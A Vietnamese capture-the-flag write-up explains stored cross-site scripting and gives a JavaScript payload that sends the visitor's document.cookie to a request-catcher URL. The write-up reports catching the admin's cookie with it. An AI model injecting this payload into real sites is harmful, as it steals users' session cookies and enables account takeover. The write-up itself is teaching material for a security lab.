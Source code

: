 Chall này là về 1 lỗ hổng bên client cơ bản: `Cross site scripting(XSS)`. XSS có 3 loại phổ biến là `reflected`, `stored` và `DOM based`, bài này chính là dạng `stored`. Cơ chế hoạt động của nó như sau: lợi dụng input form của web, nộp mã độc javascript(trong chall này là gửi cookie của người dùng cho 1 trang web do hacker quản lí), sau đó mã độc sẽ được lưu vào database. Mỗi khi người dùng truy cập vào trang web, mã độc sẽ được kích hoạt và thực hiện hành vi nguy hiểm.

Vậy để làm được điều này, ta cần 1 dịch vụ web để bắt request : [pipedream](https://pipedream.com)

Nhập code js sau vào phần message của chall:

```javascript
<script>
var i = new Image();
i.src = 'Your_request_catcher_link?cookie=' + document.cookie;
</script>
```

Rồi quan sát bên phía pipedream server. Đợi 1 lúc sẽ thấy 1 request mới gửi đến, trong đó chứa cookie của admin:

![image-20201019161958498](C:\Users\Admin\AppData\Roaming\Typora\typora-user-images\image-20201019161958498.png)
